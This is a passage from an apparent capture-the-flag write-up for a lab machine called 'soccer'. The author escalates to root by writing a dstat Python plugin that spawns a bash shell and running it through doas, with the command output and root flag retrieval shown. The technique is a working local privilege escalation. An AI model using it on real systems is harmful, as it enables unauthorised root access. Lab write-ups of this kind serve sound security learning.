 In [GTFObins dstat](https://gtfobins.github.io/gtfobins/dstat/#sudo) there is something mentioned about gaining more privileges on the system. via the sudo command. In our case we don't have sudo but doas. This might almost work the same.
First we should create a python plugin and give it a name.

```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_emvee.py
cat /usr/local/share/dstat/dstat_emvee.py
import os

os.system("/bin/bash")
```
As soon as we have configured the plugin we should run the command including the plugin name. Then a new shell should start as root.
```bash
doas /usr/bin/dstat --emvee
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
hostname
soccer
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:96:03:e6 brd ff:ff:ff:ff:ff:ff
    inet 10.129.214.90/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 2764sec preferred_lft 2764sec
    inet6 dead:beef::250:56ff:fe96:3e6/64 scope global dynamic mngtmpaddr 
       valid_lft 86396sec preferred_lft 14396sec
    inet6 fe80::250:56ff:fe96:3e6/64 scope link 
       valid_lft forever preferred_lft forever
```
We are root on the machine! Now we only have to capture the root flag.
```bash
ls ~
app
root.txt
run.sql
snap
cat ~/root.txt
< ROOT FLAG > 

```

